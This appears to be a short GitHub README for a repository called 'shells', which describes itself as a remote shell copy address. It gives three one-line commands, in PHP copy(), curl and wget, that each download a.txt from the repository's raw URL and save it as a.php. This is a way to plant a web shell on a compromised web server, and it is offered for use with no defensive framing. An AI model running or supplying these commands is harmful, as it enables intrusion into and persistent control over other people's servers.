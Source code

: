 # shells
> 用于作为远程shell copy地址
```php
copy("https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt",a.php);
```
```shell
curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
```
```shell
wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php
```

